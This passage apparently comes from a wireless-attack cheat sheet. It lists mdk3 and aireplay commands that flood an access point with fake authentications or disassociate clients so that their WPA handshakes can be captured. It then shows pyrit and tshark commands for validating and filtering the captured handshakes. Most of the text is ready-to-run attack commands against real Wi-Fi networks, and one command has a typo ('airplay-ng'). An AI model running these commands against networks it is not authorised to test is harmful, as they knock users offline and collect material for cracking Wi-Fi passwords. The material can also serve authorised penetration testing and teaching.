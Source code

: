 Could be sound strange, but if you authenticate 5000 clients to the Access Point is possible to kick out client of the network and then capture their handshake.

```
airplay-ng -1 0 -e <ESSID> -h 00:a0:8b:cd:02:65 <IFACE>  #To authenticate 1 client
```

```
mdk3 <IFACE> a -a <BSSID> #Authenticating clients until DoS
```

Finally the AP will eject the clients with less power rate.

### Dissassociation Amok Mode Attack

Same as deauthentication attack but mdk3 gives us the opportunity to introduce `allow/deny` lists.

```
blacklist.txt:
a0:e4:b2:45:f6:87

mdk3 <IFACE> d -w blacklist.txt -c 1
```

### Validating the handshake

Sometimes `aircrack-ng` tells us that it capture a handshake when it hasn't. So we can validate it with `pyrit`.

```
pyrit -r Capture-01.cap analyze
```

### Filtering the capture

When we are trying to capture a handshake, maybe we are capturing a lot of packets, so we just need to filter that. (EAPOL -> Handshakes) (wlan.fc.type\_subtype==0x08 are Beacons) (wlan.fc.type\_subtype==0x05 are Probe Response)

```
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol" -F pcap 2>/dev/null
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol"  -w filteredCapture -F pcap 2>/dev/null

pyrit -r filteredCapture analyze
```

Also it is recommended filtering with the target BSSID.

```
tshark -r Capture-01.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -w filteredCapture -F pcap 2>/dev/null
```

IF you want to do a doble analysis you may change `-Y` parameter to `-R "FILTER" -2`

```
tshark -r Capture-01.cap -R "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -2 -w filteredCapture -F pcap 2>/dev/null
```
